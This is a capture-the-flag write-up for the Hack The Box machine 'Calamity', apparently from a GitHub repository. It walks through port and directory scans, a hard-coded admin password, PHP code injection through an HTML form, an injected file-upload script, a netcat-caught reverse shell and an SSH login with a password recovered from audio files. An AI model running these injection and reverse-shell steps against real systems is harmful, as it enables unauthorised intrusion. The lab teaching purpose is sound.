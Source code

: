 # Calamity - 10.10.10.27
## Scanning
```
nmap -v -A -n -p- 10.10.10.27

Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 22/tcp open  ssh 	OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: |   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
[*] Nmap: |   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
[*] Nmap: |_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (EdDSA)
[*] Nmap: 80/tcp open  http	Apache httpd 2.4.18 ((Ubuntu))
[*] Nmap: | http-methods:
[*] Nmap: |_  Supported Methods: GET HEAD POST OPTIONS
[*] Nmap: |_http-server-header: Apache/2.4.18 (Ubuntu)
[*] Nmap: |_http-title: Brotherhood Software
```
## Web server
```
dirb http://10.10.10.27 /usr/share/dirb/wordlists/common.txt
...
---- Scanning URL: http://10.10.10.27/ ----
+ http://10.10.10.27/admin.php (CODE:200|SIZE:451)
+ http://10.10.10.27/index.html (CODE:200|SIZE:514)
+ http://10.10.10.27/server-status (CODE:403|SIZE:299)
==> DIRECTORY: http://10.10.10.27/uploads/  
```
### What's in the admin.php?
```html
root@kingpin:/# curl http://10.10.10.27/admin.php --trace tr.txt
<html><body>
<form method="post">
Password: <input type="text" name="user"><br>
Username: <input type="password" name="pass">
  <input type="submit" value="Log in to the powerful administrator page">
   			 <!-- password is:skoupidotenekes-->
</form>
</body></html>
```
 Log in as ```admin/skoupidotenekes```
```html
<html>
<title>GOT U BEEJAY</title>
<body>
TADAA IT HAS NOTHING
<br>
what were you waiting for dude ?you know I aint finished creating<br>
xalvas,the boss said I am a piece of shit and that I dont take my job seriously...but when all this is set up...Ima ask for double the money<br>
just cauz he insulted me <br>
Maybe he's still angry at me deleting the DB on the previous site...he should keep backups man !
<br>
anyway I made an html interpreter to work on my php skills !
It wasn't easy I assure you...I'm just a P-R-O on PHP !!!!!!!!!
<br>
access in here is like 99% secure ,but even if that 1% reaches this page ,there's nothing they can do !
<br>
html is super-harmless to our system!
Try writing some simple stuff ...and see how difficult my job is and how underpaid I am
<form method="get">
Your HTML: <input type="text" name="html"><br>
  <input type="submit" value="SHOW ME DA PAGE">
</form>
</body></html>```

SO...
>html is super-harmless to our system!

It is correct, but PHP is not.

Input this line  ```<?php system('whoami');?>``` and submit.
Output - ```www-data```

Sweet! Now we can upload a shell to __/uploads__ and get our fancy shell.

## Getting in
### Uploading reverse shell

Inject PHP that will get the file to ```/uploads```. Here is a simple script:
```php
<!DOCTYPE html>
<html>
<head>
  <title>Upload your files</title>
</head>
<body>
  <form enctype="multipart/form-data" action="admin.php?html=%3C%21DOCTYPE+html%3E+%3Chtml%3E+%3Chead%3E+++%3Ctitle%3EUpload+your+files%3C%2Ftitle%3E+%3C%2Fhead%3E+%3Cbody%3E+++%3Cform+enctype%3D%22multipart%2Fform-data%22+action%3D%22admin.php%22+method%3D%22POST%22%3E+++++%3Cp%3EUpload+your+file%3C%2Fp%3E+++++%3Cinput+type%3D%22file%22+name%3D%22uploaded_file%22%3E%3C%2Finput%3E%3Cbr+%2F%3E+++++%3Cinput+type%3D%22submit%22+value%3D%22Upload%22%3E%3C%2Finput%3E+++%3C%2Fform%3E+%3C%2Fbody%3E+%3C%2Fhtml%3E+%3C%3FPHP+++if%28%21empty%28%24_FILES%5B%27uploaded_file%27%5D%29%29+++%7B+++++%24path+%3D+%22uploads%2F%22%3B+++++%24path+%3D+%24path+.+basename%28+%24_FILES%5B%27uploaded_file%27%5D%5B%27name%27%5D%29%3B+++++if%28move_uploaded_file%28%24_FILES%5B%27uploaded_file%27%5D%5B%27tmp_name%27%5D%2C+%24path%29%29+%7B+++++++echo+%22The+file+%22.++basename%28+%24_FILES%5B%27uploaded_file%27%5D%5B%27name%27%5D%29.++++++++%22+has+been+uploaded%22%3B+++++%7D+else%7B+++++++++echo+%22There+was+an+error+uploading+the+file%2C+please+try+again%21%22%3B+++++%7D+++%7D+%3F%3E" method="POST">
	<p>Upload your file</p>
	<input type="file" name="uploaded_file"></input><br />
	<input type="submit" value="Upload"></input>
  </form>
</body>
</html>
<?PHP
  if(!empty($_FILES['uploaded_file']))
  {
	$path = "uploads/";
	$path = $path . basename( $_FILES['uploaded_file']['name']);
	if(move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $path)) {
  	echo "The file ".  basename( $_FILES['uploaded_file']['name']).
  	" has been uploaded";
	} else{
    	echo "There was an error uploading the file, please try again!";
	}
  }
?>
```
You can notice how GET parameter in admin.php is repeating url-encoded script. This is done so the code on the page survives the refresh from POST action.

The reverse shell itself you can get from [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Connecting

First, set up netcat listener (OPTIONS: no name resolution, verbose, listener, port).
```
nc -nvlp 1337
listening on [any] 1337 ..
```
Navigate to 10.10.10.27/uploads and execute a shell.
```
connect to [10.10.14.195] from (UNKNOWN) [10.10.10.27] 55794
Linux calamity 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:15:00 UTC 2017 i686 i686 i686 GNU/Linux
 20:29:53 up  9:10,  2 users,  load average: 5.29, 5.64, 5.49
USER 	TTY  	FROM         	LOGIN@   IDLE   JCPU   PCPU WHAT
xalvas   pts/1	10.10.15.220 	16:22	1:47m  2.49s  2.26s gdb goodluck
xalvas   pts/7	10.10.15.220 	17:22	1:50m  0.33s  0.33s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
## Discovering vectors

In order to find a following attack vector, let's look through the filesystem.
In /home/xalvas we find a note which will be useful later
```
$ cat dontforget.txt
peda keeps commads history in the working dir...you should make a dir in /tmp and work from there
keep in mind that tmp is not listable,so other users cannot see your files and folders (if you dont use extrmely simple names)
```
Another thing is 2 audio files, ```recov.wav``` and ```alarmclock/rick.wav```. Both of them sound a lot like Rick Astley and both fragments are 18 seconds long. But...
```
$ diff recov.wav alarmclocks/rick.wav
Binary files recov.wav and alarmclocks/rick.wav differ
```
Interesting. Canceling out the audios might not be a bad idea.
> Invert does not usually affect the sound of the audio at all, but it can be used for audio cancellation. If Invert is applied to one track and that track is mixed with another uninverted track that has identical audio, the identical audio is cancelled out (silenced).

- apt-get install audacity
- Open audacity and import 2 tracks
- In track dropdown menu choose “Split stereo to mono”
- Select one track and choose Effects > Invert
- Play the [track](https://github.com/leolashkevych/CTF/blob/master/Hackthebox.eu/Machines/Calamity%20-%2010.10.10.27/invert.mp3)  

"47936..* your password is 185"

Trying to log in as xalvas/18547936..*
```
ssh xalvas@10.10.10.27
xalvas@10.10.10.27's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-81-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management: 	https://landscape.canonical.com
 * Support:    	https://ubuntu.com/advantage


Last login: Mon Nov  6 23:39:24 2017 from 10.10.14.164
xalvas@calamity:~$
```
